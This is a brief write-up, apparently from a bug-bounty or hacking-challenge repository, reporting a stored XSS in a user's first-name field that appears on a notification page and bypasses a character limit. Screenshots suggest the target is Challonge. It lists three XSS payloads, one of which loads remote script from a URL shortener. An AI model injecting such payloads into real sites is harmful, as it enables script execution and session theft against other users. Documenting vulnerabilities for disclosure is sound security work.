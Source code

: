 # -hack1chall
STORED XSS in frist name on page notification bypass limit character
`<script src=//cutt.ly/s-></script>`
`<script src=url.js/>` 
`<svg onload=alert(1) />` 


![1](/Screenshot_2020-11-12%20Your%20tournaments%20-%20Challonge.png)
![2](/Screenshot_2020-11-12_08-35-57.png)
